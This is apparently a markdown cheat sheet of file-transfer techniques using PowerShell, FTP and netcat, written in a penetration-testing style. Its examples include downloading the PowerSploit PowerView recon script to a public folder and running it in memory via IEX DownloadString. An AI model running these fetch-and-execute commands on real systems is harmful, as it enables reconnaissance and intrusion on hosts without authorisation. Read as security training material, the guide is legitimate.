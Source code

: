 # File Transfer Techniques Using PowerShell and Other Tools

This guide covers various methods for transferring files, using PowerShell and other tools.

---

## 1. Base64 Encoding
The simplest way to transfer files is by Base64 encoding them:
1. Encode the file into Base64.
2. Copy and paste the encoded string.
3. Decode the Base64 string on the destination system.

---

## 2. PowerShell File Download with `Net.WebClient`
### Direct Download:
Use the `DownloadFile` method of the `Net.WebClient` object to download files:
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>', '<Output File Name>')
```
**Example:**
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerView.ps1')
```

### Custom Function:
You can define a custom PowerShell function for repeated use:
```powershell
function Download-File {
    param (
        [string]$url,
        [string]$destination
    )
    (New-Object Net.WebClient).DownloadFile($url, $destination)
}
```

#### Adding an Alias:
```powershell
Download-File 'https://example.com/file.txt' 'C:\path\to\save\file.txt'
```

#### Adding to Your Profile:
```powershell
code $profile
```

---

## 3. Running Code Directly in Memory
Run scripts directly in memory using `Invoke-Expression` (`IEX`):
```powershell
IEX (New-Object Net.WebClient).DownloadString('<URL>')
```
**Example:**
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')
```

---

## 4. Using `Invoke-WebRequest` (PowerShell 3.0+)
`Invoke-WebRequest` is slower but effective for downloading files. You can use aliases like `iwr`, `curl`, and `wget`:
```powershell
Invoke-WebRequest -Uri '<URL>' -OutFile '<Output File Name>'
```

---

## 5. File Transfers via SMB Server
Use an SMB server to transfer files between systems.

---

## 6. File Transfers via FTP Server
Set up an FTP server with `pyftpdlib` and transfer files using PowerShell or an FTP client:

### Setting Up the Server:
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

### Downloading Files:
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://<server-ip>/file.txt', 'C:\Users\Public\ftp-file.txt')
```

### Using Credentials:
You can set the username and password for authentication if required.

---

## 7. Sending and Receiving Files Using `nc`

### Receiver:
```bash
echo hello | nc -l -p 8080
```

### Sender:
```bash
nc localhost 8080
```
or
```bash
echo hello | nc localhost 8080
```

---
